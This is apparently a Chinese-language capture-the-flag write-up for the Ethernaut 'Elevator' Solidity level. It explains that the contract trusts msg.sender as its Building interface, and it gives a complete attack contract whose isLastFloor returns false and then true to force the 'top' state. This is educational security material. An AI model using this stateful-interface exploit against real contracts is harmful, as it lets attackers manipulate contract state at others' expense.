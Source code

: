 ```solidity
            floor = _floor;
            top = building.isLastFloor(floor);
        }
    }
}
```

### 分析

给出的合约中有一个接口` Building `和主合约` Elevator `；

函数` goTo `中后半部分的判断应该是：

1. ` if (!building.isLastFloor(_floor)) `处` isLastFloor `应该返回` False `，这样才能往下执行；
2. ` top = building.isLastFloor(floor); `处` isLastFloor `应该返回` True `，这样就能达到题目要求；

但现在的问题是，我们并不知道` isLastFloor `中的逻辑是什么；

注意这一句` Building building = Building(msg.sender); `，若我们(合约)是` msg.sender `，那我们完全可以实现按照我们逻辑的` isLastFloor `函数；

所以，我们只需实现一个我们自己的` isLastFloor `，一开始返回` False `，随后返回` True `即可；



### 攻击

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
import "./Ethernaut.sol";

contract Exp is Building {
    Elevator public elev;
    bool flag = false;
    // 初始化合约地址
    constructor(address addr){
        elev = Elevator(addr);
    }
    // 实现接口
    function isLastFloor(uint256) external override returns (bool){
        if (flag == false) {
            flag = true;
            return false;
        } else {
            return true;
        }
    }
    // 攻击
    function Attack() public {
        elev.goTo(2);
    }
}
```
